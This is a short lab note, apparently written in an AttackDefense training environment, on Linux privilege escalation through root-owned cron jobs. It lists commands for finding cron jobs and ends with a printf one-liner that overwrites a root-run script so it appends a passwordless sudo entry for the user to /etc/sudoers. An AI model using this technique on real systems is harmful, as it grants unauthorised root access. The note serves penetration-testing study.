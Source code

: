 Cron jobs are timed or scheduled tasks to perform repetitive tasks. In some cases this is a script, command, or application set to run at a specific time.

Cron jobs can be configured by any user on the system. However, we will want to target ones created by the root user as they will be set to run with root privs. These can be used to run applications or binaries that could be used to start a shell, etc.

**commands**

crontab -l ( lists cron jobs owned by that user )
student@attackdefense:/$ grep -rnw /usr -e "/home/student/message" ( greps for any mention of a file path very useful ) 

NOTE: This was pretty neat to do as there was no text editor I had access to on the system:

printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
